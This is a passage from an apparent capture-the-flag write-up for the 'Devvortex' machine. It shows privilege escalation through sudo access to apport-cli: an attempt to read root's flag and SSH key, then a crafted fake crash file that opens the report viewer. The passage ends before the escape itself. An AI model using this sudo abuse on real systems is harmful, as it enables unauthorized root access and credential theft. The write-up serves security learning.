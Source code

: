 #### Fake Data

I can’t just give `apport-cli` any file, as I tried with `root.txt` and root’s `id_rsa`:

```
logan@devvortex:~$ sudo apport-cli -c /root/root.txt

*** Error: Invalid problem report

This problem report is damaged and cannot be processed.

ValueError('not enough values to unpack (expected 2, got 1)')

Press any key to continue...

```

It turns out what is requires is not much:

```
logan@devvortex:/dev/shm$ echo -e "ProblemType: Crash\nArchitecture: amd64" | tee example.crash
ProblemType: Crash
Architecture: amd64

```

That’s enough to generate a report:

```
logan@devvortex:/dev/shm$ sudo apport-cli -c ./example.crash

*** Send problem report to the developers?

After the problem report has been sent, please fill out the form in the
automatically opened web browser.

What would you like to do? Your options are:
  S: Send report (0.0 KB)
  V: View report
  K: Keep report file for sending later or copying to somewhere else
  I: Cancel and ignore future crashes of this program version
  C: Cancel
Please choose (S/V/K/I/C):

```

#### View and Escape

Regardless of how I got to this menu, here I’ll enter “V”:

```
What would you like to do? Your options are:
  S: Send report (0.0 KB)
  V: View report
  K: Keep report file for sending later or copying to somewhere else
  I: Cancel and ignore future crashes of this program version
  C: Cancel
Please choose (S/V/K/I/C):

```
